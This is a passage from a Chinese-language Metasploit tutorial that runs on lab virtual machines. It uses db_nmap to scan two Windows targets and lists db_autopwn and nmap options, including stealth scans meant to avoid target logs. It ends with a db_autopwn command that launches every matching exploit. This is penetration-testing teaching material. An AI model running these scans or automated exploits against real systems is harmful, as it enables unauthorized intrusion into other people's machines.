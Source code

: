 ```
su –
msfconsole
db_status
```  
**实战演示**：（在我的虚拟机里，目标主机xpsp3,ip地址：192.168.106.129；win2003，IP地址192.168.106.133）
db_nmap是nmap的封装，可以自动把扫描结果导入到数据库中，方便下一步的攻击:  
![autopwn](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片16.png)  
```
附录：
db_autopwn参数：
22.-t显示所有匹配的exploit模块
23.-x根据漏洞引用选择模块
24.-p选择基于开放端口的模块
25.-e针对所有匹配的目标启动攻击
26.-r使用反向连接外壳
27.-b在随机端口上使用绑定shell（默认）
28.-q禁用exploit模块输出
29.-R [等级]只运行最低等级的模块
30.-I [范围]只利用这个范围内的主机
31.-X [范围]始终排除此范围内的主机
32.-PI [范围]只有利用打开这些端口的主机
33.-PX [范围]始终排除打开这些端口的主机
34.-m [regex]只运行名称与正则表达式匹配的模块
35.-T [秒]任何攻击的最大运行时间，以秒为单位
Nmap常用基础参数：（详见nmap内部教程）
1.-sT	 TCP connect()扫描，这种方式会在目标主机的日志中记录大批连接请求和错误信息。
2.-sS	 半开扫描，很少有系统能把它记入系统日志。不过，需要Root权限。
3.-sF  -sN	 秘密FIN数据包扫描、Xmas Tree、Null扫描模式
4.-sP	 ping扫描，Nmap在扫描端口时，默认都会使用ping扫描，只有主机存活，Nmap才会继续扫描。
5.-sU	 UDP扫描，但UDP扫描是不可靠的
6.-sA	 这项高级的扫描方法通常用来穿过防火墙的规则集
7.-sV	 探测端口服务版本
8.-Pn	 扫描之前不需要用ping命令，有些防火墙禁止ping命令。可以使用此选项进行扫描
9.-v	 显示扫描过程，推荐使用
10.-h	 帮助选项，是最清楚的帮助文档
11.-p	 指定端口，如“1-65535、1433、135、22、80”等
12.-O	 启用远程操作系统检测，存在误报
13.-A	 全面系统检测、启用脚本检测、扫描等
14.-oN/-oX/-oG	 将报告写入文件，分别是正常、XML、grepable 三种格式
15.-T4	 针对TCP端口禁止动态扫描延迟超过10ms
16.-iL	 读取主机列表，例如，“-iL C:\ip.txt”
```  
因为已导入数据库，所以直接自动攻击：
db_autopwn –p –t –e  
